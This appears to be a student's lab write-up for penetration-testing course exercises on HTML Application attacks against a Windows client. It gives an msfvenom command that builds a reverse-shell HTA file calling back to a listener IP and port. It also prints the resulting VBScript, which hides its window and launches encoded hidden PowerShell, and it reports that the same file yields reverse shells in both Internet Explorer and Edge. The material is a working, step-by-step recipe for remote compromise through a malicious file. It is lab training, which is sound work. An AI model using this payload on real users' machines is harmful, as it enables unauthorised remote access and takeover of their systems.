 ### 13.2.2.1 Exercises
#### 1. Use msfvenom to generate a HTML Application and use it to compromise your Windows client.

- Generate the payload

  ```bash
  sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f hta-psh -o /var/www/html/evil.hta
  ```

- Exploit File contents

  ```html
  <script language="VBScript">
      window.moveTo -4000,-4000
      Set yiH = CreateObject("Wscript.Shell")
      Set fx9uBRqUjGQ5 = CreateObject("Scripting.FileSystemObject")
      For each path in Split(yiH.ExpandEnvironmentStrings("%PSModulePath%"),";")
  	    If fx9uBRqUjGQ5.FileExists(path + "\..\powershell.exe") Then
      		yiH.Run "powershell.exe -nop -w hidden -e
  ------SNIPPED------
  AG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQAKAAkAHMAKQA7AA==",0
        Exit For
      End If
    Next
    window.close()
  </script>
  ```

- Starting a netcat listener on Kali and accessing the file from the client yields a reverse shell:
  ![image-20200710203933397](.13.2.2.1.assets/image-20200710203933397.png)

#### 2. Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?

I just loaded the same file as above in MS Edge and clicked through the dialogues to run the file, similar to IE, and it created a reverse shell as well.

![image-20200710204310749](.13.2.2.1.assets/image-20200710204310749.png)